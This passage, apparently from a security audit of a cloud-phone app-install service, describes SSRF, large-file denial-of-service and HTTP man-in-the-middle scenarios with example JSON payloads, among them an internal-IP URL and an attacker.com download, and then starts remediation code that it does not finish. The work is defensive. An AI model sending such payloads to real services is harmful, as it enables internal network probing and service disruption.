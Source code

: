 **Scenario 2: SSRF Attack**
```javascript
// Attacker uses internal URL to scan internal network
{
  "downloadUrl": "http://192.168.1.1/admin"  // Internal IP
}

// Device service makes request to internal resource
// Attacker can map internal network, access internal services
```

**Scenario 3: Denial of Service via Large File**
```javascript
{
  "downloadUrl": "http://attacker.com/10GB-file.apk"  // Huge file
}

// No size limit - downloads entire file
// Fills up disk space, causes service crash
```

**Scenario 4: Man-in-the-Middle (MITM) Attack**
```javascript
{
  "downloadUrl": "http://legitimate-cdn.com/app.apk"  // HTTP, not HTTPS
}

// Attacker intercepts HTTP traffic
// Replaces APK with malicious version
// Device installs compromised APK
```

#### Impact
- **Malware installation**: Install malicious APKs on devices
- **Device compromise**: Gain access to device data, cameras, microphones
- **Data exfiltration**: Steal user data, credentials, files
- **SSRF attacks**: Scan internal network, access internal services
- **Denial of Service**: Fill disk space, crash services
- **Supply chain attack**: Compromise legitimate apps via MITM

#### Remediation

**1. Implement APK Integrity Verification**
```typescript
interface SecureAppInstallEvent extends AppInstallRequestedEvent {
  downloadUrl: string;
  checksum: string;      // SHA-256 hash of APK
  checksumAlgorithm: string;  // 'sha256'
  fileSize: number;      // Expected file size
  signature?: string;    // Optional: Digital signature
}

@RabbitSubscribe({
  exchange: "cloudphone.events",
  routingKey: "app.install.requested",
  queue: "device-service.app-install",
})
async handleAppInstall(event: SecureAppInstallEvent) {
  this.logger.log(
    `Received app install request: ${event.appId} for device ${event.deviceId}`,
  );

  try {
    // 1. Validate event data
    this.validateInstallEvent(event);

```